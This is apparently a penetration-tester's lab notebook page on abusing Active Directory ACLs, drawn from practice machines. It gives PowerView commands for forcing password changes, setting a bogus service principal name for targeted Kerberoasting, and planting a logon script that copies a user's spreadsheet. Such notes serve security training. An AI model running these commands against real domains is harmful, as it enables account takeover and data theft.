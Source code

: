 # Abusing ACLs

If we have generic ALL or Generic Write over groups we can easily add ourselves to these groups by using the commands we used in case of Forest, as well we can GenericAll to a user we can force password changes. We could then use multiple ways to enter in a session depending what group the user belongs to.

Check this example:

![](../../../../.gitbook/assets/2022-08-11\_10-46\_1.png)

![](../../../../.gitbook/assets/2022-08-11\_10-47.png)

Notice how the guy had to provide our users passwords first and then set the other users password to "Password123!". This could then be used,like I said before,  in different ways, depending on the privileges on the user we could try to do psexec, psremoting, winrm, and see what special rights this user has. &#x20;

### GenericWrite Over user.&#x20;

You may need to authenticate to the Domain Controller as SMITH@OBJECT.LOCAL if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):&#x20;

We can basically make the user execute things without the user knowing.&#x20;

![](../../../../.gitbook/assets/2022-08-16\_15-13.png)

`$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)` Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as SMITH@OBJECT.LOCAL: `Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}`

``

`If we cannot do the targeted Kerberoasting attack we can still get the user to execute commands and powershell scrpits upon initiation of session and we saw thta this user had a session on this computer.`&#x20;

``

echo 'copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\Engines.xls' > test.ps1

Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\test.ps1'}

This is the script we created, we could also do a reverse tcp shell to execute but in the case that there is a firewall blocking outbound traffic, the best we can do is try to get creds from somewhere else
